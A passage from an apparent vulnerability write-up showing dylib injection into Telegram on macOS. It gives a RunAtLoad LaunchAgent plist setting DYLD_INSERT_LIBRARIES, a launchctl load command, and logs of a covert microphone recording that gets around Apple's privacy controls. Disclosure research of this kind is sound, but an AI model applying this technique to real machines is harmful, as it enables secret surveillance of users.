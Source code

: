 To bypass the Sandbox, we will need to run the application in a different way. Instead of using the Terminal, we can use the LaunchAgents mechanism, which allows us to run processes in the background and schedule their execution.

To create a new LaunchAgent, we will create a new file named `com.telegram.launcher.plist` under the `~/Library/LaunchAgents` directory. We will define the LaunchAgent as XML and configure the `DYLD_INSERT_LIBRARIES` as follows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
       <key>Label</key>
        <string>com.telegram.launcher</string>
        <key>RunAtLoad</key>
        <true/>
        <key>EnvironmentVariables</key>
        <dict>
          <key>DYLD_INSERT_LIBRARIES</key>
          <string>/tmp/telegram.dylib</string>
        </dict>
        <key>ProgramArguments</key>
        <array>
  <string>/Applications/Telegram.app/Contents/MacOS/Telegram</string>
        </array>
        <key>StandardOutPath</key>
        <string>/tmp/telegram.log</string>
        <key>StandardErrorPath</key>
        <string>/tmp/telegram.log</string>
</dict>
</plist>
```

Now, we'll run the LaunchAgent with:

```shell
$ launchctl load com.telegram.launcher.plist
```

Since Telegram is defined with a Sandbox profile, the file will be saved in a path relative to the Sandbox profile. We can see the logs and where the recording was saved if we look at `/tmp/telegram.logs`.

```shell
$ cat /tmp/telegram.log
2023-04-07 14:16:46.355 Telegram[13634:2506647] Recording started
2023-04-07 14:16:49.457 Telegram[13634:2506647] Recording stopped
2023-04-07 14:16:49.458 Telegram[13634:2506647] Recording finished successfully. Saved to /var/folders/0k/f6bdvnb52kb1wqkq2qgd07nh00mkw1/T/ru.keepcoder.Telegram/recorded_audio.wav
```

It seems that we succeeded in injecting the Dylib and the recording file was saved successfully. This means that we were able to use the permissions granted to Telegram by injecting Dylib and record the user. It should be noted that even if we had root access to the system, we would still be limited in opening the microphone and camera. Therefore, using a vulnerability of a third-party application can grant us additional permissions and allow us to bypass Apple's privacy mechanism.
